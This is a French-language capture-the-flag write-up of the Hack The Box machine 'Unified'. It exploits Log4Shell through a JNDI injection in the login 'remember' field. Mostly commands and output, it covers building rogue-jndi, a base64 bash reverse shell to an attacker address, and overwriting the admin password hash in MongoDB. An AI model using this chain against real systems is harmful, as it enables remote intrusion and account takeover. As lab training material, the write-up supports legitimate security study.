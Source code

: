 # Unified

Notes sur la machine Unified.

Cette machine est intéressante vu que Log4j a supris tout le monde, étant donné que c'est une faille qui est la depuis un bon moment et elle n'a été decouverte que recemment.  Elle a même permis de prendre conscience sur le fait qu'un seul developpeur à la charge d'un projet et qui fait ce code de façon benevole pouvait être à la base d'une faille de grosse ampleur.

## On teste la vulnerabilité

On se sert du champ remember avec le repeater de burpsuite pour y introduire un appel ldap, on est à l'écoute avec tcpdump

${jndi:ldap://10.10.14.19/whatever}

```bash
❯ tcpdump -i tun0 port 389 -v
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:18:20.530190 IP (tos 0x0, ttl 63, id 10956, offset 0, flags [DF], proto TCP (6), length 60)
    10.129.125.109.60474 > 10.10.14.19.ldap: Flags [S], cksum 0xf4e8 (correct), seq 339107591, win 64240, options [mss 1360,sackOK,TS val 2396506282 ecr 0,nop,wscale 7], length 0
03:18:20.530225 IP (tos 0x0, ttl 64, id 0, offset 0, flags [DF], proto TCP (6), length 40)
    10.10.14.19.ldap > 10.129.125.109.60474: Flags [R.], cksum 0xaec7 (correct), seq 0, ack 339107592, win 0, length 0
```

## On construit l'application java rogue-jndi avec maven

Ici j'ai eu un doute sur la version de java mais cela marche quand même avec la version 17 de Parrot. De toutes façons si tu desinstalles la 17 t'as plus le burpsuite.

```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

Nous avons construit :  RogueJndi-1.1.jar

On va utiliser cette appli pour créer le payload !

Le payload va être un reverse shell sous cette forme : 

```bash
❯ echo 'bash -c bash -i >&/dev/tcp/10.10.14.19/8888 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTkvODg4OCAwPiYxCg==
```

Un reverse shell classique.

On va donc executer RogueJndi-1.1.jar et on va lui passer le payload dans le paramettre --command et on va mettre le --hostname avec nôtre tun0

```bash
❯ java -jar ./RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTkvODg4OCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.19"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.19:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.19:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.19:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.19:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.19:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.19:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.19:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.19:1389/o=groovy to artsploit.controllers.Groovy
Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
```

On va sur BurpSuite et on send dans le repeater avec : 

```bash
{"username":"admin","password":"admin","remember":"${jndi:ldap://10.10.14.19:1389/o=tomcat}","strict":true}
```

## On est à l'écoute et on reçois la connection

```bash
❯ nc -lvp 8888
listening on [any] 8888 ...
10.129.125.109: inverse host lookup failed: Unknown host
connect to [10.10.14.19] from (UNKNOWN) [10.129.125.109] 50980
whoami
unifi
script /dev/null -c bash
Script started, file is /dev/null
unifi@unified:/usr/lib/unifi$ 
```

## On se connecte a mongo pour chercher le pass de l'admin

```bash
unifi@unified:/home/michael$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

Une fois trouvé on va le remplacer par le notre

1. On cree le pass en sha-512

```bash
mkpasswd -m sha-512 Password1234
```

2. On le remplace 

```bash
unifi@unified:/home/michael$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$xpt560mkS9qyXcXx$pif2PENRfHM/5IKuw4qaSbebUCh1dO72I5wZnL4tntxWzJzT7n4bNCwqXD6lY68UMCX6vx.2zpweswuYdBAX6."}})'
<ntxWzJzT7n4bNCwqXD6lY68UMCX6vx.2zpweswuYdBAX6."}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
unifi@unified:/home/michael$ 
```

Puis on peut se connecter sur l'interface du site ;)

user : administrator
pass : Password1234

Dans le site on trouve le mot de passe pour root pour une connection ssh !!!

On se connecte en ssh et la machine est finie. \o/

[Pwned](https://www.hackthebox.com/achievement/machine/944728/441) 

---

